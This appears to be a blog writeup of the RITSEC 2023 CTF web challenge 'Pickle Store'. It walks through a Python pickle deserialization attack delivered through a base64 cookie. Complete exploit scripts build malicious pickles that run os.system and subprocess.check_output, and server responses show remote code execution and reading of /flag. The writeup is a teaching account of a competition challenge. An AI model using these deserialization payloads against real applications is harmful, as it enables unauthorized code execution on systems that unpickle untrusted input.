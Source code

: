 ```yaml
---
layout: post
title:  RITSEC 2023 - Web / Pickle Store
summary: 'Writeup for RITSEC 2023 "Pickle Store" Challenge'
author: leo
date: '2023-04-02 00:00:00 -0400'
category: ritsec-ctf-2023
thumbnail: /assets/img/posts/ritsec-ctf-2023/logo.png
include_thumbnail: false
keywords: security, ctf, ritsec
permalink: /blog/ritsec-ctf-2023/web/pickle-store
usemathjax: true
---
```


# The Challenge
You are led to a website that has a bunch of pickles for sale.  Clicking on a pickle brings you to the `/order` page, where it tells you your order.  This one was released well after the start of CTF, and I had already done the [X-Men Lore challenge](/blog/ritsec-ctf-2023/web/x-men-lore), and it seemed _very_ familiar. 

## Cookies On Click
Similar to how the x-men challenge worked, the buttons were embedded into a link, but also had an on-click handler that set a cookie.  The full onclick function for "Sweet Pickle" is 
```javascript
document.cookie="order=gASVDwAAAAAAAACMC3N3ZWV0cGlja2xllC4="
```

That looks like some base64 if I've ever seen it!  Pro-tip from future leo: Don't rely on the chrome dev tools or even the terminal, as there could be some extra un-readable characters in the data.  Given this has the name "Pickle" in the title, and we know it's a `gunicorn` server (inspect the response headers for the website), we already know it's a python deserialization exercise.  Python pickles are binary data, not strings.  I wasted a bit of time here.

## Creating a Payload
Like any great security researcher, I googled "python pickle exploit" and copy/pasted the code.  I would then create a pickle from my exploit, and then base64 encode it.  My PoC code looked like this:

```python
import base64
import os
import pickle
import requests

class SweetPickle:
    def __reduce__(self):
        return (os.system, ('id',))


def main():
    url = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = { 'order': base64.b64encode(pickle.dumps(SweetPickle())).decode() }
    res = requests.get(url, cookies=cookie)
    print(res.text)

if __name__ == '__main__':
    main()

```

And the response:
```html
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>0</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

## Not Quite There
We know that we proved it was vulnerable to a pickle deserialization attack, but we aren't really able to do a lot with the output from our payload.  I spent a little time enumerating what was causing the `0` where the name should be, and finally realized that's the response code from the `os.system` call.  We don't want the response code, we want actual output.  More googling and a little refactoring later, I had the following:

```python
import base64
import pickle
import requests
import subprocess

class SweetPickle:
    def __reduce__(self):
        return (subprocess.check_output,('id',))


def main():
    url = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = { 'order': base64.b64encode(pickle.dumps(SweetPickle())).decode() }
    res = requests.get(url, cookies=cookie)
    print(res.text)

if __name__ == '__main__':
    main()
```

Which then returned:
```html
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>b&#39;uid=1000(user) gid=1000(user) groups=1000(user)\n&#39;</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

We now have our remote code execution, and we can find the flag.  As with x-men, the flag is located at `/flag`.  All we have to do is change the second argument to the return in our reduce function.  Full code below:
```python
import base64
import pickle
import requests
import subprocess

class SweetPickle:
    def __reduce__(self):
        return (subprocess.check_output,(['cat', '/flag'],))


def main():
    url = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = { 'order': base64.b64encode(pickle.dumps(SweetPickle())).decode() }
    res = requests.get(url, cookies=cookie)
    print(res.text)

if __name__ == '__main__':
    main()

```

# Conclusion
Encoding issues using the browser's console to base64decode the cookie value sent me down a weird rabbit hole.  It was only showing me the text of the class name, but not the un-readable characters.  I SHOULD have known it was binary data, but I overlooked it and wasted about 20 minutes on that.  Lesson learned!!!! 
